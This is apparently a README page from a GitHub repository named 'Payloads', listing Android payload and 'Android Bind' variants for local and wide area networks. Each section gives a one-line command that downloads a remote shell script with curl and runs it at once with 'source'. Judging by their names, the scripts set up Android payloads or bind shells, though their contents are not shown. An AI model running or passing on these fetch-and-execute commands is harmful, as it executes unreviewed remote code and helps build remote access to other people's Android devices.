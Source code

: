 # Android 

<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LANAndroid.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WANAndroid.sh) </pre>

# Android Bind
<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LBIND.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WBIND.sh) </pre>
